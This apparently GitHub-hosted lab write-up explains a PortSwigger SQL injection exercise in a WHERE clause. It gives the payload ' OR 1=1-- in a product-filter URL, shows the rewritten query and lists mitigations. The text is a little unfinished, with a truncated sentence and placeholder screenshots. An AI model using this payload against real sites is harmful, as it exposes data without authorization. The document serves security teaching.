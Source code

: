 # Lab: SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data

## 📌 Introduction
This report analyzes a SQL Injection vulnerability in the WHERE clause, which allows attackers to retrieve hidden data from a database. Through a practical 
## 🔍 Lab Scenario
- The application displays products stored in a database.
- Normally, users can only see specific items filtered by a `WHERE` clause.
- The goal is to manipulate this clause to bypass filters and access hidden data.
## 🛠 Exploitation Steps

### ✅ 1. Identify the Injection Point
- The vulnerable parameter is in the URL:
https://web-security-acadimy.net/filter?category=accessories
- This query is executed in the database:
  ```sql
  SELECT * FROM products WHERE category = 'accessories' AND released = 1;
### ✅ 2. Perform SQL Injection
- Modify the URL with an SQL payload:
  ```
  https://vulnerable-site.com/products?category=accessories' OR 1=1--
  ```
- The query now becomes:
  ```sql
  SELECT * FROM products WHERE category = 'accessories' OR 1=1--' AND released = 1;
  ```
- **Effect:** This retrieves **all products**, including hidden ones.
📸 *Before Injection:*  
*(Insert screenshot of normal product list)*  
 !when Injection (when vulnerability.png).

📸 *After Injection:*  
![after Injection](after vulnerability.png).
## 🛡 Mitigation Strategies
- **Use Prepared Statements** to prevent SQL injection.
- **Validate user inputs** to restrict harmful values.
- **Limit database permissions** to restrict unauthorized access.
## 🔚 Conclusion
This lab demonstrated how an SQL injection in the WHERE clause can expose hidden data. The best defense is **input validation** and **prepared statements**.

---
💡 *For more details, visit:* [PortSwigger Labs](https://portswigger.net/web-security/sql-injection)
